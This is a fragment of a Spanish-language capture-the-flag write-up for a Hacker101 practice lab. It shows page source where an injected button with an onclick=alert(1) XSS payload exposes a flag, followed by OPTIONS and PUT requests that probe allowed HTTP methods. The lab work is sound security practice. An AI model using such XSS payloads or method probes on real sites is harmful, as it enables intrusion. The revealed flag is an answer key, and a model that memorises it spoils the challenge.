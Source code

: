 ```HTTP
<p><button flag="^FLAG^0ec0cf27b597a2f5f976a7c260031e1a3f355c5dcba5bc9a012d70550f9cdd20$FLAG$" onclick=alert(1)>click</button></p>
    </body>
</html>
```

**Flag encontrada**

`^FLAG^0ec0cf27b597a2f5f976a7c260031e1a3f355c5dcba5bc9a012d70550f9cdd20$FLAG$`

**Consulta de métodos HTTP a `/page/id/edit`**
```HTTP
OPTIONS /page/7 HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: c2185aa9c020ec27aed9835fe5d78864.ctf.hacker101.com
User-Agent: HTTPie/3.2.4



HTTP/1.1 200 OK
Allow: OPTIONS, HEAD, GET
Connection: keep-alive
Content-Length: 0
Content-Type: text/html; charset=utf-8
Date: Sun, 03 Aug 2025 18:44:29 GMT
Server: openresty/1.27.1.2
```

**Intento de métodos no permitidos**

**Método PUT**
```HTTP
PUT /page/7 HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 0
Host: c2185aa9c020ec27aed9835fe5d78864.ctf.hacker101.com
User-Agent: HTTPie/3.2.4



HTTP/1.1 405 METHOD NOT ALLOWED
Allow: OPTIONS, HEAD, GET
Connection: keep-alive
Content-Length: 153
Content-Type: text/html; charset=utf-8
Date: Sun, 03 Aug 2025 18:46:30 GMT
Server: openresty/1.27.1.2

<!doctype html>
<html lang=en>
<title>405 Method Not Allowed</title>
<h1>Method Not Allowed</h1>
<p>The method is not allowed for the requested URL.</p>
```
